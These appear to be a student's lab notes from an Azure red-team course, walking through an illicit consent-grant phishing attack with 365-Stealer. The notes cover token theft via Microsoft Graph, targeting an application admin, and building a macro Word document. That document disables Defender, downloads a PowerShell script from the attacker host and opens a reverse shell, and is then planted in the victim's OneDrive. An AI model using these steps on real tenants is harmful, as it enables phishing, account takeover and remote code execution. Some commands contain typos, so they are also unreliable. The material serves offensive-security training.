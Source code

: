 ![[Pasted image 20241117060111.png]]

- Register a Multitenant application called `student<#>` in `defcorpextcontractors` tenant
- Provide the Redirect URI where you would like to receive tokens. 
	- In the Lab it will be the student VM `http://172.16.151.x/login/authorized`
- Go to the Certificates and Secrets blade and create a new Client Secret. Ensure to copy the secret before moving on. 
	- Go to API Permissions blade and add the following delegated permissions for MS Graph: user.read User.ReadBasic.All

Note that is you want to use Access Tokens you require to got the Authentication Blade  of the student<#> app, Check the Access Tokens(used for implicit flows) and click save.

- Once we have user privilege access  to the defcorphq tenant. Check if users are allowed to consent to apps.
- Use Azure Portal or the below command from the AzureAD Module
` (Get-AzureADMSAuthorizatioPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole`
- IF the output above  is `ManagePermissionGrantForSelf.microsoft-user-default-legacy` which means users can consent for all apps

# 365 Stealer
- we can use 365 Stealer to abuse consent grant settings: `https://github.com/AlteredSecurity/365-Stealer`
- Note that the attack can be executed using o365 toolkit as well `https://github.com/mdsecactivebreach/o365-attack-toolkit`

- Run `xampp Control Panel`(Run as Admin) and start Apache on student vm.
- Copy the 365-stealer directory from `C:\AzAD\Tools` to `C:\xampp\htdocs` to capture tokens returned by Entra ID
- Using the 365-Stealer Configuration button configure CLIENTID, REDIRECTURL, and CLIENTSECRET
- Click on Run 365-stealer to run the tool
- Browse `https://localhost` using an incognito window  and click on Read More in the web page. This will give your the phising link that should be sent to the target. 

We need to find a way to send those links to the target. We can abuse applications that allow us to contact the user in the target organization. 
- We can find applications running on defcorphq tenant by sub-domain recon
- Use MicroBurst to find applications. We can add Permutations like career, hr, users, file backup to the permutation file used by microburst
```
C:\AzAD\Tools\MicroBurst\Misc\Invoker-EnumerateAzureSubDomains.ps1
Invoke-EnumerationAzureSubDomains -Base defcorphq -Verbose
``` 

- we can also assume that the `https://defcorphqcareer.azurewebsites.net` application is know as a contractor which may have some existing knowledge of the target.

Using the Need Help section of the career application running defcorphq, send the phising link
This explains the variables being used by the phising link. 
![[Pasted image 20241117075801.png]]

- wait for a couple of minutes and browse to `http://localhost:82/365-stealer/yourvictims/` on the attacking machine to get tokens for the victims who clicked the phising link
- Use the access token with Graph API to list other users in the tenant
- Note that only the permissions that we requested earlier are avaliabel with the access token. 
	- we can list all user thanks to User.ReadBasic.All

```
$Token = 'token....'
$URI = 'https://graph.microsoft.com/v1.0/users'

$RequestParams = @{
	Method = 'GET'
	Uri = $URI
	Headers = @{
		'Authorization' = "Bearer $Token"
	}
}
(Invoke-RestMethod @RequestParams).value
```


- We need to target an Application Administrator to grant consent for better permissions
- Ideally we have to target all the users but for the Lab we were able to confirm that `markdwalden@defcorphq.onmicorsoft.com` is assigned application admin

- We need to register a new app (or modify the existing app) and now request permissions that need admin consent - mail.read, notes.read.all, mailboxsettings.readwrite, files.readwrite.all, mail.send
- Generate a new link using Read More on `http://localhost` and send an email to the user containing that link(Remeber to change the client id if you registered a new app)
- once the user simulation grants consent, we will get the access token of the application admin

Using the access token of the application admin we can use 365-stealer to  upload macro infested doc files to the users onedrive
- the user simulation will open these macro infested word files and execute macros
- a licensed version of Office365 is avaliable on 172.16.1.250 to create doc files
```powershell
$passwd = ConvertTo-SecureString "ForCreatingWordDocs@123" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredentials ("office-vm\administrator", passwd)
$officeVM = New-PSSession -ComputerName 172.16.1.250 -Credentials $cred

Enter-SSession -Session $officeVM
Set-MpPreference -DisableRealtimeMonitoring $true

IEX(New-Object Net.Webclient).downloadstring("http://172.16.150.<x>:82/Out-Word.ps1")

Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadstring('http://172.16.150.<x>:82/InvokePowerShellTcp.ps1'); Power -reverse -IPAdress 172.16.150.<x> -Port 4444" -OutputFile student<x>.doc

Copy-Item -FromSession $officeVM -Path C:\Users\Administrator\Documents\student<x>.doc -Destination C:\AzAD\Tools\student<x>.doc
```

- Next we can start a listener on the student VM
- on the studentVM use 365-stealer web console or CLI to upload the doc to OneDrive of the application admin. 
` python C:\xampp\htdocs\365-Stealer\365-Stealer.py --refresh-user MarkDWalden@defcorphq.onmicorsoft.com --upload C:\AzAD\Tools\student<X>.doc`


